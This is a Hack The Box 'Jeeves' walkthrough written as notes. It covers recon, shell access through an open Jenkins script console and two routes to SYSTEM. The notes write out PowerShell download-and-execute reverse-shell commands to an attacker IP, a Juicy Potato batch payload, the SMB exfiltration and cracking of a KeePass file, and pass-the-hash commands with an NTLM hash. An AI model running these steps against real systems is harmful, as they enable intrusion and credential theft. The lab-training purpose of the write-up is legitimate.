jeeves

nmapAutomator.sh
Lets run Tib3rius' Nmap Auto scan to start withnmapAutomator.sh 10.10.10.63 All
• nmap
• recon
nmap
webserver is running on port 80
SMB is running on ports 135 and 445
another webserver seems to be running on port 50000


nmap vulns


recon
gobuster 80,50000
nikto
gobuster
port 80 gobuster
port 50000

nikto

webserver 80

error.html is just a picture and is most likely there to mislead us if we attempt to enumerate it


the page source shows this "error message" is just a picture


webserver 50000

we have a version
searchsploit
Note: DEAD ENDjetty was version 9.4, no luck here besides the directory traversal

directory traversal

lets try navigating to
10.10.10.63:9084/vci/downloads/.\..\..\..\..\..\..\..\Documents and Settings\All Users\Application Data\VMware\VMware VirtualCenter\SSL\rui.key

no luck, jetty does not seem to have any known exploits
Initial foothold
since we've run into nothing but rabbit holes at this point lets try a different wordlist for gobustergobuster dir -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

we see we have a hit for /askjeeves

/askjeeves
apparently the Jenkins administrative panel is not password protected? Huge security misconfiguration here.
manage jenkins
script console catches the eye
executes arbitary script for administration/trouble-shooting/diagnostics
script console (cmd execution)

we see we have command execution!
Invoke_PowershellTcp
gonna use nishang here to call back a reverse powershell back to our attack machine1. first thing is to copy the nishang script to our pwd
2. add the Invoke-PowershellTcp -Reverse - Ipaddress 10.10.14.62 -p 4444 to the script
3. next is to upload it to our victim using IEX downloadstring command

cmd = "powershell IEX (new-object net.webclient).downloadstring('http://10.10.14.62:5555/revshell.ps1')"


and we see we get our shell called back to us!

priv esc to root
lets enuemrate jeeves security misconfigurations with windows exploit suggester first since that's a favorite of mine• windows-exploit-suggestor
• juicy potato
• intended way
windows-exploit-suggester
first we grab the systeminfo panel of the box and save it to a file
python windows-exploit-suggester.py -d 2020-07-02-mssb.xls -i /root/Documents/htb/boxes/jeeves/system





juicy potato
first thing we need to do is download juicy potato to our machine
I open with archive manager because the save file option gives us an empty file

download jp to victim
first set up the webservercopy another invoke-powershelltcp.ps1 and have it run a reverse shell back to us on a port of our choosing

Invoke-powershelltcp -reverse -IPAddress 10.10.14.62 -port 6666


download the exploits to our victim with the following powershell commands:
IEX(new-object net.webclient).downloadfile('http://10.10.14.62:5555/jp.exe', ‘C:\Users\kohsuke\Desktop\jp.exe’)
IEX(new-object net.webclient).downloadfile('http://10.10.14.62:5555/shell.bat', 'C:\Users\kohsuke\Desktop\shell.bat')

shell.bat
simple batch file to run invoke-powershelltcp.ps1@ECHO OFF
PowerShell.exe -Command "IEX(new-object net.webclient).downloadstring('http://10.10.14.62:5555/revshell2.ps1')"
PAUSE

jp.exe -t * -p shell.bat -l 9001
./jp.exe -t * -p shell.bat -l 9001-t: create process call. for this option we’ll use * to test both options.
-p: the program to run. we’ll need to create a batch script that sends a reverse shell back to our attack machine.
-l: com server listen port.

(because its over 9000)
rev shell
and we're nt authority/system!
intended way
There is a keepass database file located in Kohsuke's Documents folder that may contain sensitive data we can use to escalate our privileges to root
first we need to exfiltrate this program to our attacking machine and since certutil isn't on this box we'll need to set up an smbshare and transfer it back to our attack machine
smbshare
first we'll set up our own smb share we'll use impacket's built in smb serverand then copy CEH.kdbx to it
impacket-smbserver temp .
where
temp is the name of our smb server
and . puts it in smbshare in the current directory

New-PSDrive -Name temp -PSProvider "FileSystem" -Root "\\10.10.14.62\temp"

navigate to the share
cd temp:

copy CEH.kdbx to the smbshare
and now we have it on our attack machine

keepass2john
because the keepass database is password protected we'll need to brute force it with Johnkeepass2john CEH.kdbx

save this hash to a txt file for john to crack
we see here that john has the potential to brute force KeePass hashes, exactly what we're looking for

lets run john with the following:
john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
our password is cracked 
kpcli
Now we have all the information we need to open the KeePass database. To do that from the command line, we’ll use the kpcli program.kpcli --kdb CEH.kdbx
and enter the moonshine1 pw

entries
to show each file in our entry list,show -f <#>
where -f will unveil originally censored data

I’m not going to bother with admin and bob because I know from the net user command that they’re not users on the system. The Backup stuff entry however contains what looks like an NTLM hash.

aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
pth-winexe/psexec privesc
Let’s try a pass the hash attack on the administrator account.aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
be sure to separate the user and the hash with a %!
pth-winexe --user=administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe

and we're admin!
we can use our ntlm hash in psexec as well
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63


using powershell commands in limited shell
since we don't have a powershell running through our psexec/pth-winexe connections, we can use the commandpowershell (Get-Content -path hm.txt -stream root.txt)

hm.txt
we're not done yet after we get root:

"Look deeper" is hinting that hm.txt has more content inside it, there's a module we can use to check
follow the stream with the command
Get-Item -path hm.txt -stream *

Get-Content -path hm.txt -stream root.txt

user/root flags
e3232272596fb47950d59c4cf1e7066a

afbc5bd4b615a60648cec41c6ac92530
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/